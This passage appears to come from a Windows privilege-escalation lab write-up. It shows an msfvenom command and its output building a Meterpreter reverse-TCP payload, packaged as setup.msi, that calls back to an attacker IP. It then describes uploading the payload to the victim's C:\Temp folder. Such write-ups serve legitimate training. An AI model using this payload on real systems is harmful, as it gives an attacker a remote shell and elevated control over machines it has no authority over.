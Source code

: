 ![Msf Multihandle](/assets/img/posts/windows-privesc/task4/msf_multihandle.png)


We generate the malicious payload:
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.8.80.159 -f msi -o setup.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of msi file: 159744 bytes
Saved as: setup.msi
```

Now, we upload the payload in the victim machine and we move it in **C:\Temp**:
![Dir setup.msi](/assets/img/posts/windows-privesc/task4/dir_setup_msi.png)
